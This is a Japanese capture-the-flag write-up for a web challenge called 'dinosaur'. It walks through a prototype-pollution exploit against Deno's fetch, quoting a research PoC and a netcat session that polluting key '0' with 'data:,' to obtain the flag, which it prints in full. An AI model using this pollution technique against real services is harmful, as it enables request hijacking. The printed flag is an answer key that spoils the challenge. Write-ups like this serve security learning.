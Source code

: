 # dinosaur:Web:100pts
恐竜ってモフモフだったらしい🦖  

[dinosaur.tar.gz](dinosaur.tar.gz)  

`nc 34.170.146.252 28172`  

# Solution
ソースと接続先が渡される。  
ソースは以下の通りであった。  
```ts
// deno --no-prompt index.ts
try {
    Object.prototype[prompt("key")!] = prompt("value")!;
    const response = await fetch("http://localhost/");
    if (response.ok) console.log("Alpaca{REDACTED}");
} catch (error) {
    console.log("Error");
}
```
自明なPrototype Pollutionのチャンスがあり、その後にfetchしている。  
レスポンスがokであればフラグが出るようだ。  
ただし、`http://localhost/`でサービスは立ち上がっていないのでokが返ってくるはずもない。  
初めにPrototype PollutionでURLを`http://example.com`など200が返るサイトにすることを目指す。  
「deno fetch prototype pollution」などとGoogleで探すと[fetch.PoC.ts](https://github.com/KTH-LangSec/server-side-prototype-pollution/blob/main/deno/fetch/fetch.PoC.ts)が見つかる。  
```ts
// ref. https://github.com/KTH-LangSec/server-side-prototype-pollution/blob/main/deno/fetch/fetch.PoC.ts
function pollute(key: string, value: any) {
    ((((Object as any).prototype as any)[key]) as any) = value;
}

pollute("0", "https://github.com");
pollute("method", "POST");
pollute("body", "Hello world!");
pollute("headers", {
    "foo": "bar",
    "content-type": "plaintext",
});

const response = await fetch("https://deno.land/");
console.log(response);
```
どうやら`"0"`を汚染することで、URLを書き換えられるようだ。  
これで任意のサイトへのfetchとすることができるため、フラグが得られそうだが上手くいかない。  
denoは実行時に`--allow-net`フラグがない場合はfetchでのネットワークアクセスは許されず、エラーとなるようだ。  
もちろんファイルアクセスも許されない。  
レスポンスがokとなるfetch可能な場所は他にあるだろうか。  
`javascript:`を試した後`data:,`とすると、都合よく200が返ってきた。  
以下のように接続先で同じことを行う。  
```bash
$ nc 34.170.146.252 28172
key 0
0
value data:,
data:,
Alpaca{z4w4z4w4_f0r3st_4lp4ch4n}
```
flagが得られた。  

## Alpaca{z4w4z4w4_f0r3st_4lp4ch4n}